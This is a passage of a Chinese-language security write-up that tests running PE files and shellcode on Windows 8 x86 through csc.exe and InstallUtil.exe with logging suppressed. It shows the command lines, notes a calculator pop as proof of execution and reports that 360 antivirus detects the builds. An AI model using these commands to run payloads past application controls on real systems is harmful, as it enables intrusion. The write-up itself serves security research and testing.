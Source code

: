 会报错，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/5a08db02c808786e7bdcf04bc31e703d550335d4.jpg)

测试exeshellx64.exe查杀情况，360干的不错，查杀，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/9e4d332f6551d2587458fe5c9560e35b1c241489.jpg)

3、win8 x86
----------

默认.net环境，支持4.0

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/c88d4a7c00905a339a4058c63900c73b31d27051.jpg)

**（1）**利用InstallUtil.exe执行pe文件

执行代码：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /out:PELoader.exe PELoader.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.exe

```

32位系统下执行发生异常

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/728241d89add8bc643c1bf9cf503eada08530de4.jpg)

**（2）**利用InstallUtil.exe直接执行shellcode

使用.net 4.0中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe  /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

成功执行shellcode，弹出计算器

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/a1cf5f5fc411f659c7b819517a5cded33365ca0b.jpg)

测试win8x86exeshell.exe查杀情况，360干的漂亮，查杀，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/13b8792795e61b0bcda15934adb35d6a59759145.jpg)

4、win8 x64
----------
